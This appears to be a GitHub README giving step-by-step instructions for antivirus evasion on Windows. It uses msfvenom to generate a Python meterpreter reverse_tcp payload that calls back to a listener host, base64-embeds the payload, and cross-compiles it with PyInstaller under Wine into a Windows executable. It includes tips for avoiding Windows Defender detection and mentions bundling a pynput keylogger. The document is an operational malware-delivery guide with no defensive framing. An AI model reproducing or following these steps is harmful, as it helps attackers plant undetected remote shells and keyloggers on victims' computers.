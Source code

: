 # Antivirus Evasion for Windows

# Install Metasploit

Metasploit: https://github.com/rapid7/metasploit-framework run the nightly script from github for installation

# Then install rest with

install.sh

This script might need modification on different linux versions.

# Create payload with python2 interpreter
<code>
which python2
</code>

Take care when installing packages with locally before crosscompiling to add the --user flag and look for the right pip version
<code>
python2.7 -m pip install pynput==1.0 --user
</code>


# Usage

msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.10 LPORT=443 -f raw -o mrtp.py
pythonpayload.py | base64 
Replace this string with the base64 string in mrtp.py

Super helpful thread:
https://www.reddit.com/r/HowToHack/comments/ghfkrh/pyinstaller_getting_picked_up_by_windows_defender/

## Bundeling
Read this before starting: https://arcade.academy/tutorials/bundling_with_pyinstaller/index.html
Install the necessary imports with
<code>
wine ~/.wine/drive_c/Python27/python.exe -m pip install pynput==1.0 #This is example for the keylogger
</code>
wine ~/.wine/drive_c/Python27/python.exe -m PyInstaller --onefile  -w --icon=icon.ico --hidden-import=pynput mrtp.py 

Do not use the --noconsole flag for pyinstaller cause Windows Defender will pick it up
The exe-file is in the dist folder
Test it on wine with wine dist/mrtp.py



# Sources: 
- https://pentestmag.com/antivirus-evasion-with-python/
- https://www.andreafortuna.org/2017/12/27/how-to-cross-compile-a-python-script-into-a-windows-executable-on-linux/
- https://www.youtube.com/watch?v=ozPaEWN4GnM
- https://stackoverflow.com/questions/63342345/cant-install-pyinstaller-at-ubuntu
- https://www.quora.com/How-do-I-make-an-executable-file-exe-which-runs-in-the-Windows-Environment-from-Python-py-file?share=1